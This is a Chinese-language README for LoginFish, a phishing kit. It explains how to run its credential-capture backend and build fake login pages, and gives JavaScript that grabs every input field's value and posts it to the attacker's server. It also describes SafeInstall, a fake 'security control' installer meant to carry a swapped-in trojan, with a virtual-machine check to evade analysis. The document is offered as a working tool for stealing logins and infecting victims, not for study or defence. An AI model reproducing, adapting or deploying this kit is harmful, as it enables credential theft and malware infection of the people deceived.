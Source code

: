 # LoginFish 通用钓鱼工具


![index](/images/index.png)
![admin](/images/admin.png)
![admin2](/images/index2.png)
![admin3](/images/index3.png)

## 使用方法


```
# 后台登录密码,请修改 password.txt 
# 第一次运行会自动生成密码 写到 password.txt
# 后台地址 http://host:5522/admin/login
# 默认端口5522 

./LoginFish port
./LoginFish 80

```


## 密码记录

![](images/body.png)

可以参考`/static/template/front_login_keylogger.html`文件

所有`input`标签的内容都会被提交到后端,引用`<script src="/static/dist/login.js"></script>`并把登录按钮绑定到`login_submit()`函数即可

你也可以自定义`login.js`,并控制登录之后的返回信息

比如说点击登录之后执行`alert('帐号/密码校验不通过')`

```js
function login_submit() {
    var input = document.getElementsByTagName('input')
    var data = ''
    for (var i = 0; i < input.length; i++) {
        const put = input[i]
        var name = ''
        if (put.className) name = '_' + put.className
        if (put.name) name = '_' + put.name
        var key = `input[${i}${name}]=${put.value}`;
        data = data + key + '&'
    }
    if (data != '') post(data)
    console.log(data)
}
```


## 模板修改

打开`static/template/`目录,默认有俩个模板,分别是`front_login_1.html`和`front_login.html`

如果需要`css`和`js`文件则把其放在`static/dist`中

模板中使用`<script src="/static/dist/login.js"></script>` 这样的路径进行引用

如果需要自定义模板,则在`static/template/`中创建以`front_`开头的html文件即可.

然后需要引用`<script src="/static/dist/login.js"></script>` 文件,再把某个下载按钮绑定到`onclick_input`事件即可

```js
 <div onclick="onclick_input()">
        <label for="password">密码</label>
        <input name="password" class="password" type="password" disabled placeholder="下载安全控件" id="password">
 </div>
```

或者你也可以直接使用`<a href='/down'>下载</a>` 这样的方式去绑定下载地址.

## SafeInstall 模拟安全控件

使用`Visual Studio 2015`与`.NET 4.0`开发,替换木马需要修改资源文件中的`load`

如果需要关闭屏蔽虚拟机,则编辑`SafeInstall/SafeInstall/Form1.cs`文件

```c#
public Form1()
{
    checkVM(); //注释该行即可
    writeFile();
    InitializeComponent();
    progressBar1.Value = 0;
    timer1.Interval = 50;
    timer1.Start();
}
```
